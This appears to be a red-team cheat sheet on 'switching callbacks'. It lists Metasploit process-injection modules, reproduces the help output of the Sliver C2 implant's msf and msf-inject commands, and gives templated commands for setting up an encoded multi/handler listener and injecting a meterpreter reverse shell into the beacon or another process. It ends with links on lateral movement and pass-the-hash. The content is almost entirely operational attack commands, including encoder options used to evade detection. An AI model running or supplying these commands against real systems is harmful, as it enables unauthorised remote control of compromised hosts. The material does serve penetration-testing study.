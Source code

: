 # Switching Callbacks

## 01 - Metasploit

TODO: Go through every MSF module

use post/windows/manage/exec_powershell

post/windows/manage/multi_meterpreter_inject

exploit/windows/local/payload_inject

post/windows/manage/shellcode_inject

post/windows/manage/reflective_dll_inject

## 02 - Sliver

### 2.1 - Help Menu

```
sliver (IMPLANT_NAME) > msf -h

Command: msf [--lhost] <options>
About: Execute a metasploit payload in the current process.

Usage:
======
  msf [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -t, --timeout    int       command timeout in seconds (default: 60)

sliver (IMPLANT_NAME) > msf-inject -h

Command: inject [--pid] [--lhost] <options>
About: Execute a metasploit payload in a remote process.

Usage:
======
  msf-inject [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -p, --pid        int       pid to inject into (default: -1)
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 2.2 - Usage

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload <payload>

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder <x86/shikata_ga_nai | x64/xor_dynamic>

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run
```

Inject meterpreter session directly in the same beacon process

`sliver (IMPLANT_NAME) > msf [-e <x86/shikata_ga_nai | x64/xor_dynamic>] -i <iterations> -L <IP> -l <PORT> -m <payload>`

Inject meterpreter session through another process

`sliver (IMPLANT_NAME) > msf-inject -p <pid> -e [x86/shikata_ga_nai | x64/xor_dynamic] -i <iterations> -L <IP> -l <PORT> -m <payload>`

## References

- [Lateral Movement Pass the Hash Attack](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

- [Pentestlab Powershell Remoting](https://pentestlab.blog/tag/powershell-remoting/)

- [Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Wadcoms](https://wadcoms.github.io/)

- [Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)
